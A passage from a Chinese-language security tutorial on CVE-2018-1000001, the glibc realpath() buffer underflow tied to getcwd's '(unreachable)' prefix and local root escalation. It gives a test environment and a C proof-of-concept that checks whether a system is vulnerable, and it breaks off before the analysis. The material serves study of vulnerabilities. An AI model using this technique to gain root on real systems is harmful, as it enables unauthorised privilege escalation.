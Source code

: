# 7.1.5 CVE–2018-1000001 glibc realpath 缓冲区下溢漏洞

- [漏洞描述](#漏洞描述)
- [漏洞复现](#漏洞复现)
- [漏洞分析](#漏洞分析)
- [Exploit](#exploit)
- [参考资料](#参考资料)


[下载文件](../src/exploit/7.1.5_glibc_2018-1000001)

## 漏洞描述
该漏洞涉及到 Linux 内核的 `getcwd` 系统调用和 glibc 的 `realpath()` 函数，可以实现本地提权。漏洞产生的原因是 `getcwd` 系统调用在 Linux-2.6.36 版本发生的一些变化，我们知道 `getcwd` 用于返回当前工作目录的绝对路径，但如果当前目录不属于当前进程的根目录，即从当前根目录不能访问到该目录，如该进程使用 `chroot()` 设置了一个新的文件系统根目录，但没有将当前目录的根目录替换成新目录的时候，`getcwd` 会在返回的路径前加上 `(unreachable)`。通过改变当前目录到另一个挂载的用户空间，普通用户也可以完成这样的操作。然后返回的这个非绝对地址的字符串会在 `realpath()` 函数中发生缓冲区下溢，从而导致任意代码执行，再利用 SUID 程序即可获得目标系统上的 root 权限。


## 漏洞复现
| |推荐使用的环境 | 备注 |
| --- | --- | --- |
| 操作系统 | Ubuntu 16.04 | 体系结构：64 位 |
| 调试器 | gdb-peda | 版本号：7.11.1 |
| 漏洞软件 | glibc | 版本号：2.23-0ubuntu9 |

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void main() {
    //char *path;

    struct {
        char canary[16];
        char buffer[80];
    } buf;
    memset(buf.canary, 47, 1);  // put a '/' before the buffer
    memset(buf.buffer, 48, sizeof(buf.buffer));
    
    //path = getcwd(NULL, 0);
    //puts(path);
    
    chroot("/tmp");
    //path = getcwd(NULL, 0);
    //puts(path);

    realpath("../../../../BBBB", buf.buffer);
    if (!strcmp(buf.canary, "/BBBB")) {
        puts("Vulnerable");
    } else {
        puts("Not vulnerable");
    }
}
```
```
# gcc -g poc.c
# ./a.out
Vulnerable
```
执行 `realpath()` 前：